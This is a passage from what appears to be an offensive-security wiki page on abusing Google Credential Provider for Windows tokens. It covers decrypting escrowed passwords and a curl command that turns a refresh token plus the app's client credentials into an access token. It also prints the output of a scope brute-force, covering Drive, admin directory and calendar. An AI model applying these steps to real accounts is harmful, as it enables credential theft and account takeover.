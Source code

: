 Then, with an **access token** with the scope `https://www.google.com/accounts/OAuthLogin` it's possible to request the private key to decrypt the password:

<details><summary>Script to obtain the password in clear-text given the access token, encrypted password and resource id</summary></details>

It's possible to find the key components of this in the Chromium source code:

* API domain: [https://github.com/search?q=repo%3Achromium%2Fchromium%20%22devicepasswordescrowforwindows-pa%22\&type=code](https://github.com/search?q=repo%3Achromium%2Fchromium%20%22devicepasswordescrowforwindows-pa%22\&type=code)
* API endpoint: [https://github.com/chromium/chromium/blob/21ab65accce03fd01050a096f536ca14c6040454/chrome/credential\_provider/gaiacp/password\_recovery\_manager.cc#L70](https://github.com/chromium/chromium/blob/21ab65accce03fd01050a096f536ca14c6040454/chrome/credential\_provider/gaiacp/password\_recovery\_manager.cc#L70)

### GCPW - Generating access tokens from refresh tokens

Using the refresh token it's possible to generate access tokens using it and the client ID and client secret specified in the following command:

```bash
curl -s --data "client_id=77185425430.apps.googleusercontent.com" \
     --data "client_secret=OTJgUOQcT7lO7GsGZq2G4IlT" \
     --data "grant_type=refresh_token" \
     --data "refresh_token=1//03gQU44mwVnU4CDHYE736TGMSNwF-L9IrTuikNFVZQ3sBxshrJaki7QvpHZQMeANHrF0eIPebz0dz0S987354AuSdX38LySlWflI" \
     https://www.googleapis.com/oauth2/v4/token
```

### GCPW - Scopes

{% hint style="info" %}
Note that even having a refresh token, it's not possible to request any scope for the access token as you can only requests the **scopes supported by the application where you are generating the access token**.

Alsoe, the refresh token is not valid in every application.
{% endhint %}

By default GCPW won't have access as the user to every possible OAuth scope, so using the following script we can find the scopes that can be used with the `refresh_token` to generate an `access_token`:

<details><summary>Bash script to brute-force scopes</summary></details>

And this is the output I got at the time of the writing:

```
Valid scopes:
https://www.googleapis.com/auth/admin.directory.user
https://www.googleapis.com/auth/calendar
https://www.googleapis.com/auth/calendar.events
https://www.googleapis.com/auth/calendar.events.readonly
https://www.googleapis.com/auth/calendar.readonly
https://www.googleapis.com/auth/classroom.courses.readonly
https://www.googleapis.com/auth/classroom.coursework.me.readonly
https://www.googleapis.com/auth/classroom.coursework.students.readonly
https://www.googleapis.com/auth/classroom.profile.emails
https://www.googleapis.com/auth/classroom.profile.photos
https://www.googleapis.com/auth/classroom.rosters.readonly
https://www.googleapis.com/auth/classroom.student-submissions.me.readonly
https://www.googleapis.com/auth/classroom.student-submissions.students.readonly
https://www.googleapis.com/auth/cloud-translation
https://www.googleapis.com/auth/cloud_search.query
https://www.googleapis.com/auth/devstorage.read_write
https://www.googleapis.com/auth/drive
https://www.googleapis.com/auth/drive.apps.readonly
https://www.googleapis.com/auth/drive.file
```